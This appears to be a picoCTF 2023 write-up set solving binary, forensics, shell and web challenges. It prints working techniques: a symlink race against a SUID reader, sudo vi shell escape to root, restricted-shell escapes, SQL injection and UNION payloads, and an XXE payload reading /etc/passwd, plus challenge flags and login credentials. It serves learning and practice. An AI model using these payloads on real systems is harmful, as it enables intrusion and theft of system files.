

Binary Exploitation
tic-tac
Someone created a program to read text files; we think the program reads files with root privileges but apparently it only accepts to read files that are owned by the user running it.
sshtosaturn.picoctf.net:62983, and run the binary named “txtreader” once connected. Login asctf-playerwith the password,d137d16e
Upon ssh into machine, we see txtreader binary and flag.txt file, however we don’t have permissions to read them. Fortunately, they also give us the pre-compiled code for txtreader so that we might get a better idea on what’s going on:
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>
int main(int argc, char *argv[]) {
if (argc != 2) {
std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
return 1;
}
std::string filename = argv[1];
std::ifstream file(filename);
struct stat statbuf;
// Check the file's status information.
if (stat(filename.c_str(), &statbuf) == -1) {
std::cerr << "Error: Could not retrieve file information" << std::endl;
return 1;
}
// Check the file's owner.
if (statbuf.st_uid != getuid()) {
std::cerr << "Error: you don't own this file" << std::endl;
return 1;
}
// Read the contents of the file.
if (file.is_open()) {
std::string line;
while (getline(file, line)) {
std::cout << line << std::endl;
}
} else {
std::cerr << "Error: Could not open file" << std::endl;
return 1;
}
return 0;
}
Essentially, the file first checks if the file exists, then checks if our permission to view the file. If we are allowed to view, it will read the file contents. It’s also worth noting that txtreader has SUID bit set, allowing it to run as root when we use:
$ ls -l txtreader
-rwsr-xr-x 1 root root 19016 Mar 16 02:28 txtreader
If we can send the textreader to open a file we have permissions on, then quickly swap it with a file linked to the flag, we should be able to trick the program into reading the flag contents for us. This is known as a Race Condition, or TOCTOU type of problem.
This video by John Hammond covers a similar CTF challenge, and the solution can be done with the same approach.
1. We will create our own file called link with touch, that we can read/write to.
2. We will start txtreader, and tell it to read link, which is owned by us.
3. txtreader will check the file, and confirm we have permission to read the file
4. We will delete link, and create a new link file that is symlinked to flag.txt. Now when things want to interact with link, they are pointed to flag.txt
5. txtreader will attempt to read link, except it now points to flag.txt. Since it already confirmed we have permissions, it will output the contents of flag.txt
Since txtreader won’t be waiting for us to manipulate the files in between actions, we have to be very fast, hence the race aspect. Our human action speeds aren’t nearly good enough, so what we can do is loop the action of swapping link , while also looping the run of txtreader. After enough runs, hopefully our action timings will line up and we can get the flag.
Making the link loop, linker.sh:
while true
do
rm link
touch link
rm link
ln -s /home/ctf-player/flag.txt link
done
Setting up the linker loop and running txtreader:
ctf-player@pico-chall$ chmod +x linker.sh
ctf-player@pico-chall$ ./linker.sh
rm: cannot remove 'link': No such file or directory
^Z
[1]+ Stopped ./linker.sh
ctf-player@pico-chall$ bg 1
[1]+ ./linker.sh &
ctf-player@pico-chall$ while [ 1 ]; do ./txtreader link; done 2>/dev/null
picoCTF{ToctoU_!s_3a5y_f482a247}
Overall while this method works, it is not very reliable. Sometimes you can get lucky and the flag is read after a few minutes of running, other times it had not succeeded once in the full 15min duration of the instance.
picoCTF{ToctoU_!s_3a5y_f482a247}
Potential Solution–Reliable race fixing?
It might be possible to “fix” the race for us, resulting in very reliable success of flag read. This post describes using a filesystem maze too large for the system to handle in memory at once, allowing for a more clear window of opportunity for us to switch targets. The maze consists of many nested folders, containing symlinks pointing to another batch of nested folders. After repeating for x times, the final link points to the file we own. The maze is too large to be placed in the filesystem cache, and this process results in slower navigation and an increased delay between the action of checking permissions and the action of reading the file contents.
While I did not have time to utilize this trick on tic-tac, it might be worth exploring on another CTF challenge.
two-sum
Can you solve this? What two positive numbers can make this possible:
n1 > n1 + n2 OR n2 > n1 + n2Enter them herenc saturn.picoctf.net 56856. Source
Essentially, we need a result where combining two positive numbers results in a smaller number. Sounds impossible, right? We can achieve this by causing an integer overflow, or inputting two large numbers that will overflow the “limit” and come back as a lower value result.
$ nc saturn.picoctf.net 56856
n1 > n1 + n2 OR n2> n1 + n2
What two positive numbers can make this possible:
5555555555 5555555555
You have entered 1260588259 and 1260588259
You have an integer overflow
YOUR FLAG IS: picoCTF{Tw0_Sum_Integer_Bu773R_0v3rfl0w_fe14e9e9}
Note that despite entering 5 555 555 555, it shows that we entered number 1 260 588 259. When we provided a number above the acceptable limit the value overflowed, and our result is something much lower. Now when the 1 260 588 259 is added together, it is still lower than our original input 5 555 555 555. Overflow achieved!
picoCTF{Tw0_Sum_Integer_Bu773R_0v3rfl0w_fe14e9e9}
Forensics
hideme
Every file gets a flag. The SOC analyst saw one image been sent back and forth between two people. They decided to investigate and found out that there was more than what meets the eye here.
{kind=link}
Downloading the file shows flag.png. Exiftool tells me there’s more to this image than first shown:
exiftool flag.png
ExifTool Version Number : 12.57
File Name : flag.png
Directory : .
File Size : 43 kB
File Modification Date/Time : 2023:03:14 17:08:24-04:00
File Access Date/Time : 2023:03:14 17:08:50-04:00
File Inode Change Date/Time : 2023:03:14 17:08:30-04:00
File Permissions : -rw-r--r--
File Type : PNG
File Type Extension : png
MIME Type : image/png
Image Width : 512
Image Height : 504
Bit Depth : 8
Color Type : RGB with Alpha
Compression : Deflate/Inflate
Filter : Adaptive
Interlace : Noninterlaced
Warning : [minor] Trailer data after PNG IEND chunk
Image Size : 512x504
Megapixels : 0.258
The warning tells us there is extra data after the image information is done, the PNG IEND chunk. We can verify this ourselves with xxd:
xxd flag.png
<...snip...>
00009b20: 0448 2004 02ff 0fe1 93e1 23be c327 2900 .H .......#..').
00009b30: 0000 0049 454e 44ae 4260 8250 4b03 040a ...IEND.B`.PK...
00009b40: 0000 0000 001c 136c 5600 0000 0000 0000 .......lV.......
00009b50: 0000 0000 0007 001c 0073 6563 7265 742f .........secret/
00009b60: 5554 0900 03f7 370d 64f7 370d 6475 780b UT....7.d.7.dux.
00009b70: 0001 0400 0000 0004 0000 0000 504b 0304 ............PK..
00009b80: 1400 0000 0800 1c13 6c56 656c 5c74 810b ........lVel\t..
00009b90: 0000 1b0c 0000 0f00 1c00 7365 6372 6574 ..........secret
<...snip...>
Using binwalk, we can see the segmented data:
$ binwalk ./flag.png
DECIMAL HEXADECIMAL DESCRIPTION
--------------------------------------------------------------------------------
0 0x0 PNG image, 512 x 504, 8-bit/color RGBA, non-interlaced
41 0x29 Zlib compressed data, compressed
39739 0x9B3B Zip archive data, at least v1.0 to extract, name: secret/
39804 0x9B7C Zip archive data, at least v2.0 to extract, compressed size: 2945, uncompressed size: 3099, name: secret/flag.png
42984 0xA7E8 End of Zip archive, footer length: 22
This can also be separated with binwalk:
$ binwalk -D=".*" ./flag.png
The output file is a folder titled _flag.png.extracted
$ ls -al
total 108
drwxr-xr-x 3 kali kali 4096 Mar 14 17:37 .
drwxr-xr-x 3 kali kali 4096 Mar 14 17:28 ..
-rw-r--r-- 1 kali kali 43006 Mar 14 17:28 0
-rw-r--r-- 1 kali kali 0 Mar 14 17:28 29
-rw-r--r-- 1 kali kali 42965 Mar 14 17:28 29-0
-rw-r--r-- 1 kali kali 3267 Mar 14 17:28 9B3B
-rw-r--r-- 1 kali kali 22 Mar 14 17:28 A7E8
After the bulk of data, 9B3B, it appears to be compressed information:
$ file 9B3B
9B3B: Zip archive data, at least v1.0 to extract, compression method=store
Rename it as zip file and unzip:
$ mv 9B3B 9B3B.zip && unzip 9B3B.zip
Resulting output is folder secret with yet another flag.png:
$ file flag.png
flag.png: PNG image data, 600 x 50, 16-bit grayscale, non-interlaced
Opening this image shows our flag.
General Skills
chrono
How to automate tasks to run at intervals on linux servers? Additional details will be available after launching your challenge instance
For this challenge, we are given a hint toward how linux servers might automate tasks.
Firstly, we are required to connect to the challenge machine via ssh:
$ ssh picoplayer@saturn.picoctf.net -p PORT
The port number is customized to your own launched instances.
Linux systems are able to automate tasks on regular intervals through the usage of cron. More info can be found on the Linux manual page. The customizable settings for cron jobs can be found in a file called crontab, which is always located in the /etc/ directory. We can check for a crontab file using ls:
picoplayer@challenge:~$ ls /etc/crontab
/etc/crontab
Now that we have confirmed it is there, we can output the contents in plaintext using cat:
picoplayer@challenge:~$ cat /etc/crontab
# picoCTF{Sch3DUL7NG_T45K3_L1NUX_7754e199}
money-ware
Flag format: picoCTF{Malwarename} The first letter of the malware name should be capitalized and the rest lowercase. Your friend just got hacked and has been asked to pay some bitcoins to
1Mz7153HMuxXTuR2R1t78mGSdzaAtNbBWX. He doesn’t seem to understand what is going on and asks you for advice. Can you identify what malware he’s being a victim of?
In this challenge, we are given a bitcoin address, and information that this address is used to siphon money from an innocent friend’s bitcoin wallet. Since blockchain transactions are publicly disclosed, we can view the activity associated with this wallet on a quick Google search.
www.bitcoinabuse.com is a website dedicated to tracking bitcoin addresses used in ransomeware and blackmailings, so if our address was used in other previous attacks, we can find reports for our given address.
Searching this address we see several reports for multiple abuse types. Since we know our friend had been hacked, the abuse type is likely a ransomeware attack. The first report against this address is labeled ransomeware, and provides a link where we might learn more:
More information here: https://blog.avira.com/petya-strikes-back/
The title of the article plainly tells us the malware at play is based on the infamous ransomeware Petya, but we can also follow the link to learn more about it.
We are told the answer to the flag is the malware involved, so we can submit the flag by inserting “Petya” into the picoCTF flag format. picoCTF{Petya}
Permissions
Can you read files in the root file?
Additional details will be available after launching your challenge instance.
This challenge asks us to read a file in the /root directory. Files located here are typically under the highest access protections possible, requiring only root permissions and rejecting any other non-super user.
Firstly, we are required to connect to the challenge machine via ssh:
$ ssh picoplayer@saturn.picoctf.net -p PORT
The port number is customized to your own launched instances.
Firstly, we can check our own user privileges:
picoplayer@challenge:~$ id
uid=1000(picoplayer) gid=1000(picoplayer) groups=1000(picoplayer)
We can see we are not a part of root in any way, uid gid or part of the root group. It is unlikely we can access /root, so it is unsurprising to see we are denied:
picoplayer@challenge:/$ cd /root
-bash: cd: /root: Permission denied
We need to find a way to elevate our permissions before we can go here.
A common approach to elevating privileges is to do super-user actions, through the command sudo. Users are often limited in the kinds of sudo actions they can do. We can check what is allowed for our user by typing sudo -l:
picoplayer@challenge:/$ sudo -l
Matching Defaults entries for picoplayer on challenge:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User picoplayer may run the following commands on challenge:
(ALL) /usr/bin/vi
Notably, we can run /usr/bin/vi as any user, including root, as noted by the (ALL). vi is a common text editor used to edit files. Since we are interested in reading the contents of a file, opening the file using vi is enough to tell us what’s inside.
picoplayer@challenge:/$ sudo vi /root/flag.txt
However, when we do this we don’t see anything? This is because even though we know the location of the flag, we are still guessing if it is called flag.txt or something else. We need a way to explore the contents of the /root directory.
While vi has the main purpose of being a text editor, we can also abuse some of it’s other features to obtain an interactive terminal session as user root:
sudo vi -c ':!/bin/bash'
Here, we launch vi with sudo vi. With -c flag, we specify a command :!/bin/bash for vi to run on launch.
Alternatively, we can do this ourselves after launching vi. Simply typing :shell will open a shell session as the current user, in this case, root.
Now we can access /root:
root@challenge:~# ls
root@challenge:~#
Typing ls shows no file in root? The challenge description mentions reading files in root, so surely something must be here:
root@challenge:~# ls -a
. .. .bashrc .flag.txt .profile
By adding -a flag to ls we can see hidden files. There is our flag, under .flag.txt. So, the reason we couldn’t find it earlier was because the name was indeed different from what we expected.
We can revisit to see that, once the proper name is supplied, vi could have been used to view file contents:
picoplayer@challenge:~$ sudo vi /root/.flag.txt
picoCTF{uS1ng_v1m_3dit0r_021d10ab}
~
~
Repititions
Can you make sense of this file? Download the file here.
Here we are tasked with making sense of a file. Following the link prompts us to download a file called enc_flag. Enc is almost certainly shorthand for encoded, meaning our flag will probably need to go through some decoding processes.
$ cat enc_flag
VmpGU1EyRXlUWGxTYmxKVVYwZFNWbGxyV21GV1JteDBUbFpPYWxKdFVsaFpWVlUxWVZaS1ZWWnVh
RmRXZWtab1dWWmtSMk5yTlZWWApiVVpUVm10d1VWZFdVa2RpYlZaWFZtNVdVZ3BpU0VKeldWUkNk
MlZXVlhoWGJYQk9VbFJXU0ZkcVRuTldaM0JZVWpGS2VWWkdaSGRXCk1sWnpWV3hhVm1KRk5XOVVW
VkpEVGxaYVdFMVhSbFZrTTBKVVZXcE9VazFXV2toT1dHUllDbUY2UWpSWk1GWlhWa2RHZEdWRlZs
aGkKYlRrelZERldUMkpzUWxWTlJYTkxDZz09Cg==
Dumping the contents in plaintext, we can see that it is clearly not human-readable. A string such as this, ending with =, is very likely encoded with base64. We can use an online decoding tool such as CyberChef to get through this quickly, or we can use the linux command base64 to do this as well:
$ cat enc_flag | base64 -d
VjFSQ2EyTXlSblJUV0dSVllrWmFWRmx0TlZOalJtUlhZVVU1YVZKVVZuaFdWekZoWVZkR2NrNVVX
bUZTVmtwUVdWUkdibVZXVm5WUgpiSEJzWVRCd2VWVXhXbXBOUlRWSFdqTnNWZ3BYUjFKeVZGZHdW
MlZzVWxaVmJFNW9UVVJDTlZaWE1XRlVkM0JUVWpOUk1WWkhOWGRYCmF6QjRZMFZXVkdGdGVFVlhi
bTkzVDFWT2JsQlVNRXNLCg==
From our cat output we use | to redirect straight to another command, base64. Setting -d means the data will be base64 decoded. Despite this, the data is still unreadable. And we still see it ending in =? It appears the flag has been through multiple layers of encoding. We can decode for multiple rounds through the same method as before:
$ cat enc_flag | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d
picoCTF{base64_n3st3d_dic0d!n8_d0wnl04d3d_492767d2}
Finally after 6 rounds of decoding, the flag appears in plaintext.
Special
Don’t power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized… automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That’s Special (TM) Start your instance to see connection details.
Additional details will be available after launching your challenge instance.
When we first enter, we might be inclined to check what is in our home:
Special$ ls
Is
sh: 1: Is: not found
Our ls command is converted to Is, and then fails to execute. Checking a few other commands leads all syntax being altered to similar legitimate words, and all of them starting with capitilization. With our syntax ruined, we cannot execute commands properly! If we attempt to enter a different shell terminal, we receive an interesting rejection:
Special$ bash
Why go back to an inferior shell?
My first thought is if my input is being altered after input but before bash processing, perhaps I can use characters designated to escaping metacharacter interpretation. In bash, the backslash \ character is used to escape regular interpretations, and generally treats the character as raw text.
Special$ \ls
Als
sh: 1: Als: not found
Unfortunately, trying to escape the l in ls, which was previously converted to I, produces something completely different. Trying again with other commands, I manage to execute whoami. Perhaps I am on to something?
Special$ \whoami
\whoami
ctf-player
As it stands currently, we are escaping only 1 character, but the others are still treated as regular components of a string. What if we escape every character?
Special$ \e\c\h\o test
\e\c\h\o test
test
We can successfully perform echo! However, for some strange reason ls is not working:
Special$ \l\s
Plus
sh: 1: Plus: not found
Perhaps the problem is caused by ls being only 2 characters? Regardless, we have other ways to look around:
Special$ \d\i\r
\d\i\r
blargh
Special$ \c\a\t \b\l\a\r\g\h
\c\a\t \b\l\a\r\g\h
cat: blargh: Is a directory
Special$ \d\i\r \b\l\a\r\g\h
\d\i\r \b\l\a\r\g\h
flag.txt
Special$ \c\a\t \b\l\a\r\g\h\/\f\l\a\g\.\t\x\t
\c\a\t \b\l\a\r\g\h\/\f\l\a\g\.\t\x\t
picoCTF{5p311ch3ck_15_7h3_w0r57_6a2763f6}
While this approached works, it is rather tedious and ugly. We can escape this special shell by invoking bash:
Special$ \b\a\s\h
\b\a\s\h
ctf-player@challenge:~$ whoami
ctf-player
Now we are free!
Specialer
Reception of Special has been cool to say the least. That’s why we made an exclusive version of Special, called Secure Comprehensive Interface for Affecting Linux Empirically Rad, or just ‘Specialer’. With Specialer, we really tried to remove the distractions from using a shell. Yes, we took out spell checker because of everybody’s complaining. But we think you will be excited about our new, reduced feature set for keeping you focused on what needs it the most. Please start an instance to test your very own copy of Specialer.
Additional details will be available after launching your challenge instance.
Upon entering, we might want to look around. However, we instantly come up with a problem:
Specialer$ ls
-bash: ls: command not found
From the looks of it, ls is not accessible in our PATH. Specifying the full path does not help, and we soon find that we may not have access to any binaries:
Specialer$ /usr/bin/ls
-bash: /usr/bin/ls: No such file or directory
Specialer$ locate ls
-bash: locate: command not found
Using tab auto-complete to navigate, we can see we are in a very restricted environment, and the only binary available is bash:
Specialer$ cd /
bin/ home/ lib/ lib64/
Specialer$ cd /bin/bash
Note: Tabbing at / suggests bin, home, lib and lib64. Tabbing at /bin/ auto suggessts bash. This must be the only file in the directory.
At least with bash, we still have access to built-ins. Since our terminal commands are so limited, we can actually list them all by pressing tab twice on an empty line:
Specialer$
! builtin dirs exit history pushd suspend unalias
./ caller disown export if pwd test unset
: case do false in read then until
[ cd done fc jobs readarray time wait
[[ command echo fg kill readonly times while
]] compgen elif fi let return trap {
alias complete else for local select true }
bash compopt enable function logout set type
bg continue esac getopts mapfile shift typeset
bind coproc eval hash popd shopt ulimit
break declare exec help printf source umask
We can utilize echo to see one directory layer at a time:
Specialer$ echo *
abra ala sim
Specialer$ echo */*
abra/cadabra.txt abra/cadaniel.txt ala/kazam.txt ala/mode.txt sim/city.txt sim/salabim.txt
We have several txt files here to view, but unfortunately no common binary to read them with. Bash also comes with a read built-in, combined with echo, we can output contents within files
Specialer$ read IFR < abra/cadabra.txt; echo $IFR
Nothing up my sleeve!
Now that the contents are displayed, perhaps one option can give us a flag?
Specialer$ read IFR < ala/kazam.txt; echo $IFR
return 0 picoCTF{y0u_d0n7_4ppr3c1473_wh47_w3r3_d01ng_h3r3_38f5cc78}
Useless
There’s an interesting script in the user’s home directory
Additional details will be available after launching your challenge instance.
For this challenge we are given a simple script, and told to explore the script to obtain the flag.
Firstly, we are required to connect to the challenge machine via ssh:
$ ssh picoplayer@saturn.picoctf.net -p PORT
The port number is customized to your own launched instances.
we see the script in our home directory, with executable premissions:
picoplayer@challenge:~$ ls -al
total 16
drwxr-xr-x 1 picoplayer picoplayer 20 Mar 17 18:38 .
drwxr-xr-x 1 root root 24 Mar 16 02:30 ..
-rw-r--r-- 1 picoplayer picoplayer 220 Feb 25 2020 .bash_logout
-rw-r--r-- 1 picoplayer picoplayer 3771 Feb 25 2020 .bashrc
drwx------ 2 picoplayer picoplayer 34 Mar 17 18:38 .cache
-rw-r--r-- 1 picoplayer picoplayer 807 Feb 25 2020 .profile
-rwxr-xr-x 1 root root 517 Mar 16 01:30 useless
First, we check the kind of file we are working with:
picoplayer@challenge:~$ file useless
useless: Bourne-Again shell script, ASCII text executable
This is a bash script, written in plaintext. We will be able to easily view the contents with a simple cat command:
picoplayer@challenge:~$ cat useless
#!/bin/bash
# Basic mathematical operations via command-line arguments
if [ $# != 3 ]
then
echo "Read the code first"
else
if [[ "$1" == "add" ]]
then
sum=$(( $2 + $3 ))
echo "The Sum is: $sum"
elif [[ "$1" == "sub" ]]
then
sub=$(( $2 - $3 ))
echo "The Substract is: $sub"
elif [[ "$1" == "div" ]]
then
div=$(( $2 / $3 ))
echo "The quotient is: $div"
elif [[ "$1" == "mul" ]]
then
mul=$(( $2 * $3 ))
echo "The product is: $mul"
else
echo "Read the manual"
fi
fi
It appears the script is performing basic math, based on whatever operation you tell it to perform. For example, a division problem
picoplayer@challenge:~$ ./useless div 10 2
The quotient is: 5
If we don’t supply 3 arguments, we are told to read the code. If we don’t supply a valid math operation, we are told to read the manual. There is not much to go on with this program here. We can see if a manual exists for this by using man:
man useless
useless
useless, -- This is a simple calculator script
SYNOPSIS
useless, [add sub mul div] number1 number2
DESCRIPTION
Use the useless, macro to make simple calulations like addition,subtraction, multi-
plication and division.
Examples
./useless add 1 2
This will add 1 and 2 and return 3
./useless mul 2 3
This will return 6 as a product of 2 and 3
./useless div 6 3
This will return 2 as a quotient of 6 and 3
./useless sub 6 5
This will return 1 as a remainder of substraction of 5 from 6
Authors
This script was designed and developed by Cylab Africa
picoCTF{us3l3ss_ch4ll3ng3_3xpl0it3d_5562}
Turns out a man page exists, and our flag was placed here as well. Great..
Web
findme
Help us test the form by submiting the username as
testand password astest!The website running here
Upon logging in, we cycle through a couple blank pages very quickly before landing at http://saturn.picoctf.net:54197/home. The page contains a search bar and a small note:
“I was redirected here by a friend of mine but i couldnt find anything. Help me search for flags :-)”
Searching for a few keywords leads us to no result. The note on this page mentions the redirects as well, so let’s use burpsuite to catch and analyze each step that’s occuring. First login request:

First redirect:

Second redirect:

Then finally we are sent to home. There isn’t much to go on aside from the second redirect has an id value that looks like base64 encoding. Decoding the string:
$ echo "bF90aGVfd2F5XzAxZTc0OGRifQ==" | base64 -d
l_the_way_01e748db}
This is looking like half of a flag. Combining the two id values together and base64 decoding might get us the flag:
echo "cGljb0NURntwcm94aWVzX2FsbF90aGVfd2F5XzAxZTc0OGRifQ==" | base64 -d
picoCTF{proxies_all_the_way_01e748db}
MatchTheRegex
How about trying to match a regular expression The website is running here.
Going to the page, we see an input box to input our search. Based on the name, my first thought is that this will be a regular expression search, where we must input a regex term that will hit positive for specifically the flag. After trying several different regex queries, I’m not having any luck. Looking at the page source, I notice a hint displayed in comments:
<script>
function send_request() {
let val = document.getElementById("name").value;
// ^p.....F!?
fetch(`/flag?input=${val}`)
.then(res => res.text())
.then(res => {
const res_json = JSON.parse(res);
alert(res_json.flag)
return false;
})
return false;
}
</script>
^p.....F!?
In regex searches, ^ refers to the start of a line and $ refers to the end of a line, so perhaps this hint can be a working query?
Unfortunately not.. Playing with the provided hint a little more, I get a successful match by being more generic:

Despite being a regex based search, and the commented page source including the ^ marker for the beginning of a line, including the ^ in our search causes it to fail..
picoCTF{succ3ssfully_matchtheregex_f89ea585}
More_SQLi
Can you find the flag on this website. Try to find the flag here
Thanks to sergyperov for the helpful writeup!
Entering the site we see a login page. Considering the name of the challenge, we will start with a simple SQL injection payload: 'or 1=1--
On the first attempt with a random input, we get an error. This is more useful than usual, however, as it tells us the SQL query happening in the background:
username: 'or 1=1--
password: 345534
SQL query: SELECT id FROM users WHERE password = '345534' AND username = ''or 1=1-- '
Since password is being called first, we can insert our injection into this field and it should work. After bypassing login, we see a table of information:
There’s no flag here, but one of the addresses seems to be a little interesting: “Maybe all the tables”. Doing our regular SQL injection 'or 1=1-- in the search bar results in the same information. It appears that although we are dumping all information from the current table, the flag is actually in a different table? In order to dump information in other tables we will look into UNION injections.
First to explore union injections, we need to know the number of columns in this table. With this challenge, we can clearly see three tables, but just to be sure, we will check a UNION injection including 3 columns. If the column number doesn’t match the SQL query, the search will fail.
Kampala' UNION SELECT NULL,NULL,NULL--

Note that choosing Kampala to search isn’t required, but it can make it easier to see our row of NULLs between it and the City/Address/Phone header.
From here, we need to know which columns might be text injectable. Since city and address contain strings, these two are likely, however phone consists of numbers so possibly not the third column. Testing all 3 at once:
Kampala' UNION SELECT "abc","abc","abc"--
All three columns return our injected string, meaning we can dump information out of any of these three columns. Note you only need one column working to proceed with union injection, and also if you try injecting your string into a column that cannot take string values then the entire SQL query fails.
Probing the SQL tables:
Kampala' UNION SELECT sql,NULL,NULL from sqlite_master LIMIT 1,5; --
by pulling sql from sqlite_master, we can see a total of 4 tables:
- hints
- more_table
- offices
- users
Normally users would be the most interesting for us, but our hint about “Maybe all the tables” is hinting towards the more_tables table first. We can check each table by using the same type of UNION injection. Note that this table list output also gives us the column names: id and flag. Another reason to try this table first.
Kampala' UNION SELECT id,flag,NULL from more_table where 1=1--

And with that, we have our flag.
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_62aa7500}
SOAP
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file? Web Portal
Visiting the page we 3 cards, each with an interactable Details button:

When we watch Firefox’s Network Monitor and click a detail, we see a post method sent:
The request payload is in xml format, potentially leading to XXE (XML external entity) injection. We can try a simple payload described in portswigger’s post on the topic:
`<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> <stockCheck><productId>&xxe;</productId></stockCheck>`
modifying our own payload:
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY abc SYSTEM "file:///etc/passwd"> ]><data><ID>&abc;</ID></data>
We can resend our request using Firefox’s Network Manager again, and replace the body contents with our newly modified payload. In the response tab, we see the contents of /etc/passwd as well as our flag:

picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}
In an interesting twist of annoyance, the xxe injection fails if you use the entity term ‘xxe’, as is done in portswigger’s example. After renaming the entity to ‘abc’, the xxe exploit worked effortlessly.